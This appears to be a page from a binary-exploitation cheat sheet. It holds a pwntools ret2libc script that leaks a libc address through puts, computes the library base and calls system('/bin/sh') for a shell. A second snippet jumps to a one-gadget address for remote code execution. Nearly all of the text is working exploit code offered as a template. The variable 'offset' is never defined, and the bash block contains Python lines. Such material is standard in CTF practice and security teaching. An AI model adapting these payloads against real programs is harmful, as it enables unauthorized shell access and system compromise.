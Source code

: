### ret2libc Attack

```python
from pwn import *

# Setup
elf = ELF('./binary')
libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
p = process('./binary')

# Leak libc address
pop_rdi = 0x401293
puts_plt = elf.plt['puts']
puts_got = elf.got['puts']
main = elf.symbols['main']

# Stage 1: Leak libc
payload = b'A' * offset
payload += p64(pop_rdi)
payload += p64(puts_got)
payload += p64(puts_plt)
payload += p64(main)  # Return to main

p.sendline(payload)
p.recvline()
leak = u64(p.recvline().strip().ljust(8, b'\x00'))
libc.address = leak - libc.symbols['puts']

log.info(f"Libc base: {hex(libc.address)}")

# Stage 2: Execute system("/bin/sh")
bin_sh = next(libc.search(b'/bin/sh\x00'))
system = libc.symbols['system']

payload = b'A' * offset
payload += p64(pop_rdi)
payload += p64(bin_sh)
payload += p64(system)

p.sendline(payload)
p.interactive()
```

### One-Gadget RCE

```bash
# Find one-gadget addresses
one_gadget /lib/x86_64-linux-gnu/libc.so.6

# Use in exploit
from pwn import *
one_gadget = libc_base + 0x4f3d5
payload = b'A' * offset + p64(one_gadget)
```
